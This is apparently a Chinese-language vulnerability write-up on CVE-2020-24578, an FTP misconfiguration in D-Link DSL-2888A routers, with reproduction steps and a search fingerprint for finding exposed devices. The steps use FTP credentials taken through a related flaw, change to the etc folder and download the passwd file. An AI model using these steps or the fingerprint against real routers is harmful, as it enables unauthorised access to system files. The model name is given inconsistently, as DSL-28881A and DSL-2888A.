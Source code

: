 # D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

前提为使用 **D-Link DSL-28881A 信息泄露 CVE-2020-24577** 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```



![img](../../../.vuepress/public/img/link-5.png)



若有收获，就点个赞吧